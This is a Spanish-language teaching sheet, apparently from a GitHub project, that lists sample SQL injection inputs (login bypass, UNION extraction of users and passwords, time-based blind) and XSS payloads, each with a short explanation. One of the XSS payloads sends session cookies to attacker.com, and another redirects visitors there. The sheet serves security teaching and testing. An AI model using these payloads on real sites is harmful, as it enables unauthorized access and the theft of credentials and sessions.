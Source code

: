 SQL INJECTION

1. Bypass de Autenticación
Este es el ejemplo más común para demostrar SQL Injection. Se utiliza una consulta que siempre será verdadera, permitiendo al atacante evitar el proceso de autenticación.

Entrada del formulario:

- Usuario: ' OR '1'='1'; -- 
- Contraseña: (deja en blanco)

Explicación: El atacante aprovecha el operador OR para hacer que la condición de autenticación sea siempre verdadera.'

2. Extracción de Datos de la Base de Datos
El atacante puede intentar extraer datos sensibles directamente de la base de datos con un ataque de Union-based SQL Injection.

Entrada del formulario:

Usuario: ' UNION SELECT null, username, password FROM users; -- 
Contraseña: (cualquier valor)

Explicación: Con el uso de UNION, el atacante puede combinar la consulta original con otra que extrae datos sensibles, como nombres de usuario y contraseñas.

3. Ataque de Tiempo Basado (Blind SQL Injection)
Si no hay mensajes de error visibles, el atacante puede realizar un ataque de inyección SQL basado en el tiempo para confirmar si una consulta es verdadera o falsa.

Entrada del formulario:

Usuario: ' OR IF(1=1, SLEEP(5), 0) -- 
Contraseña: (cualquier valor)

Explicación: Si la condición es verdadera (1=1), el servidor se retrasará 5 segundos antes de responder, lo que indica al atacante que la inyección fue exitosa. Esto es útil en ataques de Blind SQL Injection donde el atacante no recibe retroalimentación directa.

XSS

1. Inyección de Script Simple
Este es el ejemplo más básico de un ataque XSS.

Entrada del formulario:<script>alert('XSS');</script>

Explicación: Este ataque inyecta un script que muestra un cuadro de alerta. Es el ataque de XSS más simple y demuestra cómo los scripts pueden ejecutarse si no se escapan correctamente.

2. Robar Cookies del Usuario
El atacante puede intentar robar cookies de sesión del usuario a través de XSS.

Entrada del formulario: <script>document.write('<img src="http://attacker.com/cookie?cookie=' + document.cookie + '">');</script>

Explicación: Este código envía las cookies del usuario a un servidor externo controlado por el atacante. Demuestra cómo un atacante puede obtener información sensible como tokens de sesión.

3. Inyección de HTML y Manipulación del DOM
El atacante puede inyectar HTML para alterar el contenido visual de la página o manipular el DOM.

Entrada del formulario:<script>document.body.innerHTML = '<h1>Esta página ha sido hackeada</h1>';</script>

Explicación: En este caso, el script modifica todo el contenido de la página, mostrando un mensaje personalizado del atacante. Esto demuestra cómo un atacante puede alterar la experiencia visual del usuario.

4. Redirección Maliciosa
El atacante puede redirigir a los usuarios a sitios web maliciosos sin su conocimiento.

Entrada del formulario:<script>window.location='http://attacker.com';</script>

Explicación: Este ataque redirige al usuario automáticamente a un sitio web controlado por el atacante, lo que podría ser una página de phishing o un sitio con malware.

5. Ataque de XSS Persistente
Si los comentarios se guardan en la base de datos y se muestran a otros usuarios, un atacante puede inyectar un script que afecte a todos los que visiten la página.

Entrada del formulario:<script>alert('Este script afectará a todos los que vean este comentario');</script>

Explicación: En un ataque XSS persistente, el script inyectado se almacena en la base de datos y se ejecuta cada vez que la página que lo contiene es cargada por otros usuarios. Esto tiene un impacto más amplio, ya que afecta a varios usuarios.